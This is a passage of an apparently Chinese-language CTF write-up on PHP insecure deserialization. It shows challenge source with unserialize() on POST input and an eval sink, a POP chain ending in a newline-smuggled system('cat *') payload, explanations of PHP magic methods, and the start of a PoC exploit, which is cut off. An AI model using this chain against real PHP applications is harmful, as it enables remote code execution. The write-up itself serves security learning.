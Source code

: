 ```php
    public function __toString()
    {
        $this->a->run();
        return 'hello';
    }
}
class mix
{
    public $m1;

    public function run()
    {
        ($this->m1)();
    }

    public function get_flag()
    {
        eval('#' . $this->m1);
    }

}

if (isset($_POST['cmd'])) {
    unserialize($_POST['cmd']);
} else {
    highlight_file(__FILE__);
}
```

根据源代码我当时是找了这样一条反序列化的POP链

fin \_\_destruct -> what  \_\_toString() -> mix run() -> crow \_\_invoke -> fin __call -> mix get_flag -> crow eval(#\nsystem('cat *');)

下面是四个魔法方法

__invoke()  当尝试以调用函数的方式调用一个对象时

__destruct() 会在到某个对象的所有引用都被删除或者当对象被显式销毁时执行。

__call() 在对象中调用一个不可访问方法时，会被调用。

__toString() 方法用于一个类被当成字符串时应怎样回应

下面是我最初的POC

```php
<?php

class crow
{
    public $v1;
    public $v2;

//    public function __construct()
//    {
//        $this->v1 = new fin();
//    }

    function eval() {
        echo new $this->v1($this->v2);
    }

    public function __invoke()
    {
        $this->v1->world();
    }
```